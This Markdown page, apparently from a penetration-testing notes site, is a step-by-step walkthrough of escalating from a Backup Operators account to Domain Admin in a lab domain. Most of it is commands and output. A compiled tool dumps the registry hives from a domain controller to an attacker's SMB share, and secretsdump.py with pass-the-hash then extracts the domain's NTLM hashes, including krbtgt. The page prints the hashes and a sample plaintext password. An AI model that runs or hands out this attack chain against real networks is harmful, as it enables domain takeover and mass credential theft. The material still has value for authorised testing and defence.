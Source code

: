 ```yaml
---
title : "BackupOperatorToDA"
# pre : ' '
description : "From Backup Operator To Domain Admin."
date : 2022-02-22T17:33:18+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## BackupOperatorToDA - From Backup Operator To Domain Admin

If you compromise an account member of the group Backup Operators you can become the Domain Admin without RDP or WinRM on the Domain Controller.

All credit from [filip_dragovic](https://twitter.com/filip_dragovic) with his inital [POC](https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp) ! I build this project because I wanted to have a more generic binary with parameters and also being able to export the SAM database on the remote share!

## Prerequisites

- Compile the `.sln` file from [Github Repo](https://github.com/mpgn/BackupOperatorToDA) (or trust mine below.)
- Impacket [smbserver.py]({{< ref "smbserver-py" >}})
- Impacket [secretsdump.py]({{< ref "secretsdump-py" >}})
- Account in target domain with the 'Backup Operator' membership

{{%attachments fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Account checking

First it it important to be sure the user is member of the 'Backup Operator' group.

```plain
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Users\johndo>whoami
offsec\johndo

C:\Users\johndo>net user johndo /domain
The request will be processed at a domain controller for domain offsec.nl.

User name                    johndo
Full Name                    John Do
[...]

Local Group Memberships      *Backup Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

### Set-up smbserver.py

It is recommended to check if the share is reachable from a Windows workstation without additional credentials.

```plain
$ smbserver.py -smb2support -ip 10.20.30.16 share .
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.20.30.12,50555)
[*] AUTHENTICATE_MESSAGE (OFFSEC\johndo,WIN10)
[*] User WIN10\johndo authenticated successfully
[...]
```

## Exploiting the vulnerable configuration

### Executable running and dumping SAM/SYSTEM/SECURITY

```plain
PS C:\> .\BackupOperatorToDA_release.exe -t \\srv2019.offsec.nl -u johndo -p Welkom1234 -d offsec.nl -o \\10.20.30.16\share\
Making user token
Dumping SAM hive to \\10.20.30.16\share\SAM
Dumping SYSTEM hive to \\10.20.30.16\share\SYSTEM
Dumping SECURITY hive to \\10.20.30.16\share\SECURITY
```

### Secretsdump SAM/SYSTEM/SECURITY

Two hashes can be used from here, the **'$MACHINE.ACC'** and/or **'administrator'** hash.

```plain
$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x9319e551be8d75919967f0065e0132b9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:43bcb[...]
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1842947e54ab3d9a8758531e8fc6049
[...]
```

### Dump everything

### Using administrator hash

```plain
$ secretsdump.py offsec.nl/administrator@srv2019.offsec.nl -hashes :97f2592347d8fbe42be381726ff9ea83 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

### Using machine account hash

```plain
$ secretsdump.py offsec.nl/'srv2019$'@srv2019.offsec.nl -hashes :e1842947e54ab3d9a8758531e8fc6049 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

## URL List

- [Github.com - From Backup Operator To Domain Admin](https://github.com/mpgn/BackupOperatorToDA)

